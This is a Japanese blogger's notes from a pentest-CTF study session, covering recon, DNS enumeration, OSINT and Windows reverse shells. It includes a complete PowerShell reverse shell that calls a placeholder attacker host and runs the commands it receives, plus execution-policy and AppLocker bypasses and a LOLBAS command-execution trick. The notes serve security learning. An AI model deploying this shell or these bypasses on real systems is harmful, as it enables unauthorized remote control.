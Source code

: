 ```yaml
---
date: 2019-12-29
description: '浪速セキュリティnote'
tags:
 - 雑記
---
```


# 浪速セキュリティnote
12/29(日)に開催された[浪速セキュリティ勉強会#04 #05：ペンテストCTFで学ぶサイバーセキュリティ（12月29日)](https://naniwasecurity.connpass.com/event/154331/)に参加した際のarchive

## 基礎知識
 - 今回は実際に攻撃するまでの偵察がメイン
 - `nc -lvnp 80`でlisten

### redirector
 - targetとattackerの間に配置して, targetと直接通信するサーバ
 - これ自身を調べても本体はいない
 - 自分たちの安全を保証するために挟むのが一般的
 - ペンテストやレッドチームもこういったところまでやる必要がある
 - 目的
   - 自分たちをtargetから隠す
   - redirectorをtakedownされても別のredirectorを立てればよい

## DNSの調査
### domain fronting
   - HTTPS接続のドメインを難読化(解析困難化)することによってインターネットの検閲やブロッキングを回避する手法
   - 例えば、CDNのサーバーにリフレクションサーバーを紛れ込ます手法などかある
     - ref: [Domain Fronting (まとめ)](https://malware-log.hatenablog.com/entry/Domain_Fronting)
   - 最近はreputationで判断しているので, false positiveがある
     - [domainFrontingLists](https://github.com/vysecurity/DomainFrontingLists)
     - [WebPulse Site Review Request](https://sitereview.bluecoat.com/#/)

### DNSの調査(DNS Enumeration)
 - targetのname serverの探索
 - [zonetransfer.me](zonetransfer.me)は脆弱なやられサーバ的な感じ

 - nsレコードをもらってくる
   - `host -t ns {targetip}`

```
~# host -t ns zonetransfer.me
zonetransfer.me name server nsztm1.digi.ninja.
zonetransfer.me name server nsztm2.digi.ninja.

```

 - mxレコードをもらってくる
   - `host -t mx {targetip}`

```
# host -t mx zonetransfer.me
zonetransfer.me mail is handled by 0 ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 10 ALT2.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX4.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 10 ALT1.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX5.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX3.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX2.GOOGLEMAIL.COM.
```

   - 相手はメールをgmailの管理サーバを使っていることがわかる
   - -> 標的型攻撃をする場合, googleの持っている機能はscanされてしまうこともわかる
   - -> malwareを作って添付しても, そもそも相手に着弾しない可能性がある
   - -> 着弾するかしないかは, 自分でgoogleのメールサーバを使って確認することができる
   - これは他のメールサービスでも同様

### DNS Lookup
 - 存在しそうなホスト名にDNSパケットを飛ばして確認する手法

```
for name in $(cat /usr/share/dnsenum/dns.txt); do
host ${name}. zonetransfer.me | grep "has address" | cut -d " " -f 1,4
done
```

### Reverse DNS Lookup
 - 1つ存在しているホスト名を見つけ, 存在しているホスト名の近くを使っていると想定して上でBruteForceを試す手法
 - 192.168.33.{brute force}

### DNS Zone Transfer
 - ゾーン転送情報取得を用いて確認する手法
 - dig axfr @... addr

### 内部のサーバのレコードを見る
 - サーバ証明書を発行した時に発行した旨をDBに蓄積する
 - これが改ざんされていないかを確認する仕組みがある
   - [【講演】Certificate Transparencyを知ろう ～証明書の透明...](https://www.jnsa.org/seminar/pki-day/2016/data/1-2_oosumi.pdf)
 - このログサーバは公開されている
   - 内部のサーバレコードが見れる
   - 命名から中身が想定できる
 - [findomain](https://github.com/Edu4rdSHL/findomain)
 
### RedirectorとRedirectの違い
 - redirectorは直接通信する
 - redirectは挟んで通信するので遮断される可能性がある

## OSINT
### Google Search Operator
   - [GoogleGuide making searching even easier](http://www.googleguide.com/print/adv_op_ref.pdf)
   - 空白はOR
   - `-`は除外
   - `site:`
   - `filetype:`
     - `filetype:pdf`が便利
### Twitter Serach Operators
   - [Rules and filtering](https://developer.twitter.com/en/docs/tweets/rules-and-filtering/overview/standard-operators)
   - `geocode: 緯度,経度,距離km`
   - [google hacking database](https://www.exploit-db.com/google-hacking-database)
   - 社内向け資料に連絡先があるなど
 
## ReverseShell
### PowerShell
 - PowerShellでファイルを実行するにはExecutionPolicyを設定し直す必要がある
   - [設定値等についてはこちら(Qiita: PowerShellのExecutionPolicyのスコープとかについて詳しく)](https://qiita.com/kikuchi/items/59f219eae2a172880ba6)

```
Set-ExecutionPolicy bypass`
start-process calc.exe
powershell.exe -executionpolicy bypass gen_calc.ps1
```

 - ReverseShell用のCSharpCode

```
$client = New-Object System.Net.Sockets.TCPClient("attackerAddress",443);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback =(iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};

$client.Close()
```

### PowerShell without powershell.exe
 - SyncAppvは仮想化モジュールの一部
 - powershellのコマンドを受け付ける
   - `C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; start-process calc.exe"`
   - これでcalc.exeが立ち上がる
 - lolbas(Living Off The Land Binaries and Scripts)
   - 現地調達型バイナリ(実行ファイル)
   - [Web: Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
   - [GitHub](https://github.com/LOLBAS-Project/LOLBAS)
   - ここで対象になっている107個のアプリケーションはチェック対象にすることが求められる

### Restricting PowerShell
 - applocker
   - ブラックリスト管理をするのが良い
   - 最初に全て許可してからダメなものをブラックリストに入れる
 - apploockerのbypass
   - powershellを動かせる
   - 対策として, InstallUtil.exeをapplockerに入れる
     - その際に, 過去の実行ログをみて, 使われていない場合は良いかもしれない
     - だいたい使われているので, それらを使っているcallerをホワイトリスト管理するとよい
